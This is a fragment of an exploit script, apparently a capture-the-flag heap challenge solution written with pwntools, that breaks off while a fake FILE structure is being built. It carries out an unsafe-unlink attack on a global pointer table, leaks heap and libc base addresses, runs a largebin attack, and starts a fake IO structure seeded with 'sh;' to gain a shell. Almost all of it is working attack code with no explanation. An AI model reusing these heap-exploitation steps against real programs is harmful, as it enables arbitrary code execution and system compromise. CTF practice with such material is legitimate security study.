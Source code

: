 ```bash
    sla(b': ',str(index).encode())

def show(index):
    sla(b': ',b'3')
    sla(b': ',str(index).encode())

def edit(index,content):
    sla(b': ',b'4')
    sla(b': ',str(index).encode())
    sla(b': ',content)

target = 0x404060

add(0,0x428,b'aaaa')
add(1,0x4f0,b'aaaa')
add(2,0x410,b'aaaa')

payload = p64(0) + p64(0x421) + p64(target - 0x18) + p64(target - 0x10)
payload = payload.ljust(0x420,b'\x00')
payload += p64(0x420)

edit(0,payload)
delete(1)

edit(0,b'\x00'*0x18 + p64(target - 0x18) + p64(0x4040c0)+p64(0)*10 + p32(0x1000)*10)

add(2,0x520,b'a')
add(3,0x520,b'a')
add(4,0x508,b'a')
add(5,0x510,b'a')
add(6,0x500,b'a')

delete(3)
delete(5)
add(7,0x600,b'a')
add(3,0x520,b'a')

show(3)
ru(b'Content: ')
heap_base = u64(p.recvuntil(b'\n',drop=True).ljust(8,b'\x00')) - 0x1a61
leak("heap_base",heap_base)

add(5,0x510,b'a')
show(5)
libc.address = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x21a161

delete(7)
delete(3)
add(7,0x600,b'a')
edit(1,p32(0x2000)*10)

payload = b'\x00'*0x418 + p64(0x500) + b'\x00'*0x4f8 + p64(0x420) + b'\x00'*0x418
payload += p64(0x531)
payload += p64(0x21a110 + libc.address)*2 + p64(heap_base + 0xfe0) + p64(0x404040-0x20)
edit(2,payload)

delete(5)
add(8,0x600,b'a')

fake_io_addr = heap_base + 0x1a20

fake_IO_struct = b'  sh;\x00\x00\x00' + p64(0x521)              #rdi
fake_IO_struct = fake_IO_struct.ljust(0x74,b'\x00')
```